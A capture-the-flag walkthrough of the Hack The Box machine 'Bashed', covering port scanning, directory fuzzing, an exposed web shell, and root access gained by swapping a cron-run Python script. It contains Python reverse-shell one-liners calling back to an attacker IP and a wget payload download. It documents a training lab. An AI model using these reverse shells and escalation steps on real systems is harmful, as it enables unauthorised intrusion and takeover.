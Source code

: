 # Bashed

**Machine ip:** 10.10.10.68

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.68 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.68`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1ff38f3a-a5aa-4493-a119-fa3ad2067bf8)

+ Navigate to `http://10.10.10.68`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a21b3006-628d-4a28-ad8b-4e7cfa141a30)

+ Directory fuzzing:
```
feroxbuster -u http://10.10.10.68 -x html,php,json,js,sh,cgi,pl,docx,pdf,txt -w /usr/share/wordlists/dirb/common.txt --depth 2 --filter-status 200,403,404,500 -r --extract-links
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a24d471b-2314-4886-a94c-b7fb375d928e)

+ Check `http://10.10.10.68/dev/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5fd4e705-edbc-413a-aea1-c21d4bb841fe)

+ Click one of the php files, and gain a shell.
+ Cat user.txt

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a7c07f5a-dc65-41f9-983c-1aa0f5697877)

+ Get revershell:
+ `nc -lnvp 4444`
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

+ `python -c 'import pty; pty.spawn("/bin/bash")'`
+ `sudo -ll`
+ `sudo -u scriptmanager /bin/bash`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c5a05271-ac94-4d4e-9dd7-418a80eec712)

## Privilege Escalation
+ `cd /`
+ `ls -la`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/896f8a81-478c-41a0-a6e9-5729b1894204)

+ `scripts` directory is interesting: `cd scripts`
+ `ls -la`
+ `cat test.py`
+ `cat test.txt`
+ `ls -la`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/66e2654b-e29e-40be-b014-7f4c4dcb3ad4)

+ The last access time of the `test.txt` file changes every minute. The script runs every minute.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/df6a0cd2-5966-4fbb-91b8-5cad62124888)

+ Even `test.txt` file name is changed, exists `test.txt` the same file name each minute again.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/49b004f3-46e8-42d6-b672-4765d0cd1df4)

+ Create `test.py` revershell payload file on your attack machine:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

+ Start listener: `nc lnvp 5555`
+ Transfer it to target machine: `python3 -m http.server`
+ Download `wget 10.10.14.5:8000/test.py` and change the name.
+ Get the root shell:
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c1b923d8-5e44-4c00-b9ab-c0405253686a)


# References & Alternatives:
+ https://vvmlist.github.io/#bashed
+ https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
+ https://danishzia.medium.com/hackthebox-htb-bashed-walkthrough-ab402b9f4715
+ https://lastlistener.github.io/Walkthroughs--HackTheBox_Bashed_Walkthrough_and_Lessons.html
